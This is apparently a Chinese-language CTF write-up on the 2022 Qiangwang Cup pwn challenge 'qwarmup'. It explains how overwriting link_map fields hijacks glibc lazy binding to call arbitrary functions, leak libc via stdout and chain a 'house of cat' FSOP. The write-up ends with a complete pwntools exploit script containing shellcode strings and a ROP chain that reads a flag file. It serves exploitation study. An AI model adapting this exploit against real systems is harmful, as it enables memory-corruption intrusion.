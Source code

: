 ```yaml
---
title: 从qwarmup中学习到关于lazybind和linkmap的利用技巧
date: 2022-08-12 6:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=41/
pin: false
---
```


## 适用场景

适用于Partial Relro时，没有有效的泄露函数，有任意libc地址写且其后会执行未执行过的函数

## 使用方法

主要技巧

1.让绑定错位失效，去修改link_map->l_addr来使得，解析的真实函数地址无法写在got表上(但是函数还是可以正常执行)

2.劫持link_map->l_info[DT_STRTAB]，劫持之前先伪造好strtab(比如在_r_debug上)，原本指向DT_STRTAB的d_val，改其指向DT_DEBUG的d_val

3.执行完记得恢复，让其正常执行原函数功能

## 例题分析:qwarmup

来自2022年强网杯线上赛

![image-20220812170420267](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170420267.png)

![image-20220812170535426](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170535426.png)

2.35的版本，题目开了沙箱

![image-20220812170503979](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170503979.png)

先看下题目情况，题目给了一个4字节的size用于malloc，这里是可以申请到libc段上方

然后是dowhile循环，会取size的高2字节保留，低位2字节赋0，所得的值作为校验，如果不为0就跳出循环。这里如果我们申请的是libc段上方，size就是0x10000往上，就会导致计算所得值不为0，从而跳出循环

而在循环内部，如果我们申请的是libc段上方，那么就可以对libc端任意地址写



题目采用**延迟绑定**的方式执行函数，没有可用于泄露地址的函数

所以考虑劫持stdout泄露地址，但缺少printf族输出函数，可以通过执行`_IO_flush_all`来触发

如果我们改掉该程序本身这个linkmap结构体的link_map->l_addr，就会导致解析完的真实write地址写入的位置发生改变，我们算下偏移，让其写入到0x4088的位置，这样一来，size的高位就为0了

![image-20220812210104272](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812210104272.png)

由于write的真实地址没有被写进got表，因此每次调用write都会进行一次查找，主要是执行`dl_runtime_resolve`，然后执行`_dl_fixup`函数，其中会去`call _dl_lookup_symnol_x`来获取函数的真实地址

![image-20220812211247119](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211247119.png)

第一个参数就是要查找函数的函数名，即`sym->st_name`，其来获取于strtab，strtab则是来源于libc上的全局结构体link_map，link_map->l_info[DT_STRTAB]



这里讲一下linkmap结构

`l_addr`：表示 libary 的基地址

`l_name`：表示 libary 的名字

`l_next`：链接着该程序所有用到的 libary，在GOT[1] 中保存的地址是第一层 link_map 中所表示的 libary，可以用 l_next 结构寻找下一层表示的 libary，以此来遍历程序中所用到的 libary，并利用结构体的字段找到该层 libary 的名字、基地址、以及所有的 section 等信息。

`l_info[x]`：指向该 libary 下的 .dynamic。`l_info[1]` 指向 d_tag = 1 时所表示的 section(这里的Elf64_Dyn结构体) ，所以可以改变 x 的值找到每个相关 section 的地址。在链接过程中 binary 中的 section 地址，以及 libary 中的地址都是通过此方法确定的。

下图是`_rtld_global`中第一个linkmap节点(程序本身)

![image-20220812211717640](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211717640.png)

.dynamic节如图所示，是由Elf64_Dyn结构体组成的

![image-20220812212950032](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812212950032.png)

比如像这样一段

d_tag == DT_STRTAB，d_val == 5 ，d_ptr == 0x560

DT_STRTAB大多都是宏定义，据我观察和dl_val是同样的值

```
Elf64_Dyn <5, 560h>                     ; DT_STRTAB
```

gdb中可以发现其正是指向Elf64_Dyn结构体

![image-20220812220457216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812220457216.png)



再说回这个`_dl_lookup_symbol_x`，第一个参数st_name主要就是通过strtab获取的

如果我们修改掉link_map->l_info[DT_STRTAB]的值为另一个可控的Elf64_Dyn结构体的地址，相当于劫持strtab，就可以执行任意函数

```c
_dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```

比如说我们控制link_map->l_info[DT_STRTAB]到DT_DEBUG，这样，我们在write相同偏移处写入IO_flush_all，就能利用lazybinding实现任意函数执行，前提是任意libc地址写，且其后会执行未执行过的函数

![image-20220812211153075](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211153075.png)

利用这一点我们可以执行_IO_flush_all函数实现FSOP触发stdout的泄露地址

关于IO_flush_all这个函数呢，主要是调用`_IO_flush_all_lockp`函数，会把IO结构体从stderr开始依次校验(if判断)

拿到libc地址以后，后续就可以通过劫持IO_stderr实现FSOP触发的IO利用，方法很多了，house of cat/house of emma/house of pig等

这里提供一下打本地的exp，远程有一定偏移上的区别

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level = 'debug'

p = process("./qwarmup")
elf = ELF("./qwarmup")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def write(offset,content):
	for i in range(len(content)):
		p.send(p64(offset+i))
		p.send(content[i])
		p.recvuntil("Success!")

p.send(p32(0xf0000))

write(0x3592d0,"\x70")# 控制覆盖size，同时不让真实地址写入got表

write(0x30e770,p32(0xfbad1800))# IO_stdout
write(0x30e770+0x20+0x8,"\xff")

write(0x359108+0x22,"_IO_flush_all")# 0x22 is offset of write of strtab
p.send(p64(0x359338))
p.send("\xd0")

libc_base=uu64()-0x21ba70
lg('libc_base')

setcontext=libc_base+libc.sym["setcontext"]+61
Read = libc_base+libc.sym["read"]
Write = libc_base+libc.sym['write']
pop_rdi = libc_base+0x2a3e5
pop_rsi = libc_base+0x2be51
pop_rdx = libc_base+0x90529
pop_rcx = libc_base+0x8c6bb
syscall = libc_base+0x91396
pop_rax = libc_base+0x45eb0
heap = libc_base-0xf3ff0
IO_wfile_jumps = libc_base + 0x2160c0
lg('heap')
write(0x359338,"\x90")# recover

#----------------------house of cat by FSOP-----------------------

stderr = libc_base+0x21a6a0# IO_stderr_addr
write(0x30e690+0x28,p64(0xffffffffffffffff))
write(0x30e690+0x40,p64(1))
write(0x30e690+0x50,p64(heap)+p64(setcontext))# rdx
write(0x30e690+0xa0,p64(stderr+0x30))
write(0x30e690+0xd8,p64(IO_wfile_jumps+0x30))
write(0x30e690+0xd8+0x38,p64(stderr+0x40))


rop = p64(heap)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x400)+p64(pop_rdx)+p64(0x30)*2+p64(Read)
rop += p64(pop_rdi)+p64(1)+p64(Write)

payload = "flag".ljust(0xa0,'\x00')+p64(heap+0x100)+p64(pop_rdi)
payload = payload.ljust(0x100,'\x00')
payload += rop

write(0,payload)
p.send(p64(0x359338))# IO_flush
p.send("\xd0")

p.interactive()
```



参考文章：

[深入窥探动态链接 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/134105591)

[高版本glibc堆的几种利用手法 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/535469996)

[2022强网杯 Pwn 部分Writeup-Pwn影二つ的博客 (kagehutatsu.com)](https://kagehutatsu.com/?p=723)

[从o开始的pwn学习之超详细ret2dl_resolve_金语的博客-CSDN博客](https://blog.csdn.net/jzc020121/article/details/116312592)

[高级ROP-ret2dlresolve(1) · 语雀 (yuque.com)](https://www.yuque.com/cyberangel/rg9gdm/oyne1i#gGyAO)